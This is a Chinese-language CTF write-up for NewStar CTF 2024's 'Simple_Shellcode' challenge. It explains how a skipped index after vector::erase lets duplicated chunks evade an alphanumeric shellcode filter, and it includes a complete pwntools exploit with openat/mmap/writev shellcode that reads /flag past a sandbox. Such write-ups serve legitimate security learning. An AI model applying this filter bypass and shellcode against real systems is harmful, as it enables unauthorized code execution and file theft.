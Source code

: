 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Simple_Shellcode

程序有两个功能

![](/assets/images/wp/2024/week5/Simple_Shellcode_1.png)

1 是输入 shellcode，2 是运行 shellcode

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+Ch] [rbp-34h] BYREF
  _QWORD v4[6]; // [rsp+10h] [rbp-30h] BYREF

  v4[3] = __readfsqword(0x28u);
  sub_3602();
  sub_BEEE((__int64)v4);
  while ( 1 )
  {
    sub_3A6D();
    std::istream::operator>>(&std::cin, &v3);
    if ( v3 == 1 )
    {
      sub_3ADC((__int64)v4);
    }
    else if ( v3 == 2 )
    {
      sub_3C67(v4);
      sub_3E3A((__int64)v4);
    }
    else
    {
      std::operator<<<std::char_traits<char>>(&std::cout, "浣犲湪鍋氫粈涔堝憿馃槨馃槨馃槨");
    }
  }
}
```

其中，v4 是用来存储 shellcode 的 vector

```
std::vector<std::string> code;
```

在输入功能中，一次只能输入 8 个字符

检测功能中，如果检测到 shellcode 含有非字母或数字，就会删掉这段 shellcode

```
if ( (unsigned __int8)sub_B9F1(v4, v3) != 1 )
    {
      v8 = sub_C962((__int64)a1);
      v9 = sub_C9AE(&v8, i);
      sub_CA14(&v10, &v9);
      sub_CA42(a1, v10);
      v5 = std::operator<<<std::char_traits<char>>(&std::cout, &unk_F130);
      std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
    }
```

当然，使用 AE64 直接生成 shellcode 也是可以的

```
for (i = 0; i < code.size(); i++) {
    auto line = code[i];
    if (!std::all_of(line.begin(), line.end(), [](char c) {
        return (c >= '0' && c <= '9') || (c >= 'A' && c <= 'Z') || (c >= 'a' && c <= 'z');
    })) {
        code.erase(code.begin() + i);
        std::cout << "想什么呢雑魚, 非字母是不行的😡😡😡" << std::endl;
    }
}
```

```
template<typename _Tp, typename _Alloc>
   typename vector<_Tp, _Alloc>::iterator
   vector<_Tp, _Alloc>::
   _M_erase(iterator __position)
   {
     if (__position + 1 != end())
_GLIBCXX_MOVE3(__position + 1, end(), __position);
     --this->_M_impl._M_finish;
     _Alloc_traits::destroy(this->_M_impl, this->_M_impl._M_finish);
     _GLIBCXX_ASAN_ANNOTATE_SHRINK(1);
     return __position;
   }
```

通过查看 erase 的源码，发现 erase 是通过将后面的元素 MOVE 到前面，然后 --finish 实现的

而在程序实现的删除算法中，erase 后没有将 i--，这就会导致，如果 idx=2 的元素被删除了，i++（i=3)，而 erase 会将后面的元素 MOVE 到前面，原本 idx=3 的元素会移动到 idx=2，这样会导致原本 idx=3 的元素绕过检测

也就是说，我们将会被删除的元素输入两次，即可绕过检测

对于沙箱，洒洒水啦

Openat + mmap + writev

```
#!/usr/bin/env python3
from pwn import *
import re

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ru = lambda x: p.recvuntil(x)

k = 1
if k:
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./Simple_Shellcode')
elf = ELF('./Simple_Shellcode')

def debug():
    gdb.attach(p, 'b *$rebase(0x3F50)\nc\n')

def sp_input(byte_str):
    for i in range(0, len(byte_str), 8):
        chunk = byte_str[i : i + 8]

        input(chunk)

        if re.search(rb'[a-zA-Z0-9]', chunk):
            input(chunk)

def input(data):
    sla(b'Choose', b'1')
    sl(data)

def run_code():
    sla(b'Choose', b'2')

shellcode = '''
    mov rsp, rbp
'''
shellcode += shellcraft.openat(-100, "/flag", 0, 0)
shellcode += '''
    mov rdi, 0x777721000
    mov rsi, 0x100
    mov rdx, 1
    mov r10, 2
    mov r8, 3
    mov r9, 0
    mov rax, 9
    syscall
    push 1
    pop rdi
    push 0x1    /* iov size */
    pop rdx
    push 0x100
    mov rbx, 0x777721000
    push rbx
    mov rsi, rsp
    push SYS_writev
    pop rax
    syscall
'''

payload = asm(shellcode)

sp_input(payload)
run_code()

p.interactive()
```